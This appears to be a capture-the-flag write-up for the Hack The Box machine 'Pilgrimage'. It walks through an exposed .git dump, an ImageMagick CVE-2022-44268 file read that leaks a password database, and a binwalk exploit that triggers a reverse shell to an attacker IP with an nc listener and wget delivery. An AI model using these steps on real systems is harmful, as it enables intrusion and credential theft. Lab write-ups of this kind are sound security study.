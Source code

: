 ```yaml
---
layout: post
author: H4-L0
---
```



# HTB-Pilgrimage

![image](/images/Pasted image 20230705225802.png)


## Enumeration

### nmap

lets start with nmap scan.

```
$ sudo nmap -sS -p- pilgrimage
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-28 14:43 EDT
Nmap scan report for pilgrimage (10.10.11.219)
Host is up (0.054s latency).
rDNS record for 10.10.11.219: pilgrimage.htb
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

we found 2 services:
- `22` ssh-Service
- `80` werbserver
---

the webserver is serving a image resizing service. after uploading the image you will get a download link for the rezised version.

![image](/images/Pasted image 20230628204701.png)

### dirbusting

after checking for directories with `ffuf` we found a git repository.

```shell
$ ffuf -w `fzf-wordlist` -u http://pilgrimage/FUZZ

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 42ms]
.hta                    [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 42ms]
.htaccess               [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 44ms]
.htpasswd               [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 46ms]
assets                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 39ms]
index.php               [Status: 200, Size: 7621, Words: 2051, Lines: 199, Duration: 40ms]
tmp                     [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 43ms]
```

we used `git-dumper` to dump the repo to our machine.

[git-dumper](https://github.com/arthaud/git-dumper)

```sh
$ python3 -m git-dumper http://pilgrimage.htb/.git/HEAD ./git-dump`
```

the dumped repo contains those files.

```shell
$ ls
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```

### imageMagick

one of them is a *binary* called *magick*

```shell
$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

we checked the version and we found out the webserver is using *ImageMagick 7.1.0-49 beta* to resize the uploaded images.

![image](/images/Pasted image 20230628221556.png)

a quick search got use an exploit for this version of ImageMagick.

[CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)

now we are able to read files. the next step was to find interesing files to read.
we read more source code of the dumped git repo and got something worth reading with the exploit.

*dashboard.php*

```php
...
function fetchImages() {
  $username = $_SESSION['user'];
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM images WHERE username = ?");
  $stmt->execute(array($username));
  $allImages = $stmt->fetchAll(\PDO::FETCH_ASSOC);
  return json_encode($allImages);
...
```

in the file *dashboard.php* a connection to a `sqlite` database is established.
with this path: `/var/db/pilgrimage`

so we generated the malicious image with  
`cargo run "/var/db/pilgrimage"

and uploaded the file through the website.
after downloading we needed to analyse the image with
`identify -verbose output.png`

you will see a very long hexcode that we saved as a binary file. because sqlite database files are binary files.

we did it with a small python script.

```python
hex_string = <long hex code>
with open("sqlite.db", "wb") as dbf:
    dbf.write(bytes.from(hex_string))
```

after that we could read the database file and found users and passwords. 

```sqlite
emily|abigchonkyboi123
vagos|123
asdasd|asdasd
emily@pilgrimage.htb|emily
```

and `emily` got us the *ssh* access.

```shell
emily@pilgrimage:~$ ls
user.txt
```

first thing after entering the system was grabbing the user flag under the home directory of `emily`

![image](/images/Pasted image 20230628222739.png)

## Privesc

as usual we checked common attack vectors and found a unusual binary. 
*binwalk* 

we checked the version number and we found that it is in dead vulnerable.

```shell
emily@pilgrimage:/usr/sbin$ /usr/local/bin/binwalk

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

we got this exploit but we needed to find a way how root will execute it.

![image](/images/Pasted image 20230628222343.png)

so we monitored the running processes with [pspy](https://github.com/DominicBreuker/pspy)
and a few minutes later this popped up.

```shell
5333223_eifjlohkmpnqg.jpeg -resize 50% /var/www/pilgrimage.htb/shrunk/649c91959fbb2.jpeg
2023/06/29 06:01:25 CMD: UID=33    PID=58482  | /bin/bash /tmp/.mount_magick89qA8m/AppRun convert /var/www/pilgrimage.htb/tmp/649c91959fada8.35333223_eifjlohkmpnqg.jpeg -resize 50% /var/www/pilgrimage.htb/shrunk/649c91959fbb2.jpeg
2023/06/29 06:01:25 CMD: UID=0     PID=58483  | /bin/bash /usr/sbin/malwarescan.sh
2023/06/29 06:01:25 CMD: UID=0     PID=58486  | /bin/bash /usr/sbin/malwarescan.sh
2023/06/29 06:01:25 CMD: UID=0     PID=58485  | /bin/bash /usr/sbin/malwarescan.sh
2023/06/29 06:01:25 CMD: UID=0     PID=58484  | /bin/bash /usr/sbin/malwarescan.sh
2023/06/29 06:01:25 CMD: UID=0     PID=58487  | /bin/bash /usr/sbin/malwarescan.sh
```

root is executing a shell script called `malwarescan.sh`

```shell
emily@pilgrimage:/usr/sbin$ cat malwarescan.sh
```

we checked the content and found out it calls binwalk.

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
```

the script is triggered as soon a new file is recognized in the directory:
`/var/www/pilgrimage.htb/shrunk/`

we used the python [exploit](https://www.exploit-db.com/exploits/51249)with this arguments to create a new malicious image.

```shell
$ python3 walki.py CVE-2022-44268/image.png 10.10.10.10 4445
```

don't forget to start the listener because the image will trigger a reverse shell to our machine.

```shell
$ nc -lvnp 4445
listening on [any] 4445 ...
```

at last we started a python web server so we could download the image to the vulnerable directory.

```sh
$ python3 -m http.server 80
```

download the image with `wget`

```sh
$ wget http://10.10.10.10/explout_img.png
```

and we are root

```shell

connect to [10.10.14.155] from (UNKNOWN) [10.10.11.219] 56294
ls
_my.png.extracted
cd /root
ls
authorized_keys
quarantine
reset.sh
root.txt
cat root.txt
e5*********************3bcee6
```


here is the root flag!

[H4] & [L0]
